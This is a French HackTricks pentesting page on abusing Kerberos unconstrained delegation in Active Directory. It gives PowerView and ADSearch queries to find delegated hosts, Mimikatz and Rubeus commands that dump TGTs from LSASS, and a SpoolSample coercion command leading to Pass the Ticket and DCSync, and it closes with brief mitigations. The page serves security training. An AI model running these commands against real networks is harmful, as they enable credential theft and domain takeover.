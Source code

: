 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

C'est une fonctionnalité qu'un administrateur de domaine peut définir sur n'importe quel **ordinateur** à l'intérieur du domaine. Ensuite, chaque fois qu'un **utilisateur se connecte** à l'ordinateur, une **copie du TGT** de cet utilisateur va être **envoyée à l'intérieur du TGS** fourni par le DC **et sauvegardée en mémoire dans LSASS**. Donc, si vous avez des privilèges d'administrateur sur la machine, vous pourrez **extraire les tickets et usurper les utilisateurs** sur n'importe quelle machine.

Ainsi, si un administrateur de domaine se connecte à un ordinateur avec la fonctionnalité "Unconstrained Delegation" activée, et que vous avez des privilèges d'administrateur local sur cette machine, vous pourrez extraire le ticket et usurper l'administrateur de domaine n'importe où (domain privesc).

Vous pouvez **trouver des objets ordinateur avec cet attribut** en vérifiant si l'attribut [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) contient [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). Vous pouvez le faire avec un filtre LDAP de ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, ce que fait powerview :
```bash
# List unconstrained computers
## Powerview
## A DCs always appear and might be useful to attack a DC from another compromised DC from a different domain (coercing the other DC to authenticate to it)
Get-DomainComputer –Unconstrained –Properties name
Get-DomainUser -LdapFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# Export tickets with Mimikatz
## Access LSASS memory
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
## Doens't access LSASS memory directly, but uses Windows APIs
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```
Chargez le ticket de l'Administrateur (ou de l'utilisateur victime) en mémoire avec **Mimikatz** ou **Rubeus pour un** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Plus d'infos : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Plus d'informations sur la délégation non contrainte dans ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Forcer l'authentification**

Si un attaquant est capable de **compromettre un ordinateur autorisé pour "Délégation non contrainte"**, il pourrait **tromper** un **serveur d'impression** pour **se connecter automatiquement** contre lui **en sauvegardant un TGT** dans la mémoire du serveur.\
Ensuite, l'attaquant pourrait effectuer une **attaque Pass the Ticket pour usurper** le compte d'ordinateur du serveur d'impression.

Pour faire en sorte qu'un serveur d'impression se connecte à n'importe quelle machine, vous pouvez utiliser [**SpoolSample**](https://github.com/leechristensen/SpoolSample) :
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Si le TGT provient d'un contrôleur de domaine, vous pourriez effectuer une [**attaque DCSync**](acl-persistence-abuse/index.html#dcsync) et obtenir tous les hachages du DC.\
[**Plus d'infos sur cette attaque sur ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

Trouvez ici d'autres moyens de **forcer une authentification :**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Atténuation

- Limiter les connexions DA/Admin à des services spécifiques
- Définir "Le compte est sensible et ne peut pas être délégué" pour les comptes privilégiés.

{{#include ../../banners/hacktricks-training.md}}
